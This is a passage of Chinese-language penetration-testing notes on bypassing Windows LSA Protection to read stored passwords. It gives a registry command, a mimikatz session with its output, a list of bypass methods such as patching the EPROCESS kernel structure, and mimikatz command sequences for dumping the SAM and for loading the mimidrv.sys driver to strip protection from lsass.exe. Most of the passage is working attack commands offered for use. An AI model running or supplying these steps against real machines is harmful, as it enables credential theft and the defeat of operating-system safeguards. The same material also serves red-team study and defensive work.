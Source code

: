 ### <span style="color:#F98B26">2.2.1.2 绕过LSA防护策略读取密码</span>
https://itm4n.github.io/lsass-runasppl/
```
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v RunAsPPL /t REG_DWORD /d 00000001 /f

C:\Users\Administrator\Desktop>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Dec 23 2022 16:49:51
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
```

```
绕过LSA保护并转储缓存的票据

删除RunAsPPL 注册表项并再次重新启动系统.
这不是一个实用的方法,一旦我们重启系统,会丢失缓存在内存上的额所有凭据.

通过修补EPROCESS内核结构来禁用LSASS进程上的PPL标注.
PPL保护由驻留在与目标进程关联的EPROCESS内核对象中的位控制.
如果我们能够在内核空间中获得代码执行,我们就可以禁用LSA保护并转储凭据.

直接读取LSASS进程内存内容,而不是使用打开的进程函数.
```

```
采用操作SAM的方式 获取凭据

mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # lsadump::sam
```

```
1. mimikatz驱动加载

通过加载驱动来移除 Lsa Protection,mimikatz提供Mimidrv.sys驱动,
Mimidrv.sys已经签名的Windows驱动模型(WDM)内核模式软件驱动程序.

mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
```
